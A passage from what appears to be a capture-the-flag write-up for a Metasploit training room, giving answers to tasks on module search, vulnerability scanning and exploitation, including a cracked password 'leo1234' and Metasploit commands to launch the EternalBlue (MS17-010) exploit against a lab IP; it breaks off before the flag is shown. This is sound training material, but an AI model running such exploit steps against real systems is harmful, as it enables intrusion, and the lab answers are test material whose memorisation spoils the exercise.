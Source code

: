 ```bash
run
```

**Ans:** `leo1234`

---

## Task  3 - The Metasploit Databsse

No answer needed

---

## Task 4 - Vulnerability Scanning

#### 1) Who wrote the module that checks SMTP servers for open relay?

*We can search around using the key words.*

```bash 
search smtp open relay
use 0
show info
```

```bash 
Provided by:
  Campbell Murray
  xistence <xistence@0x90.nl>
```

**Ans:** `Campbell Murray`

---
## Task 5 - Exploitation

#### 1) Exploit one of the critical vulnerabilities on the target VM

No answer needed

#### 2) What is the content of the flag.txt file?

*The vulnerability is `ETERNAL BLUE` as that is what the entire task is about. We can essentially follow the same steps in the task to exploit this.*

*Do not forget to start the new machine and change your `RHOSTS` IP.*

```bash 
search MS17
use 0
set RHOSTS 10.48.144.53
exploit
```
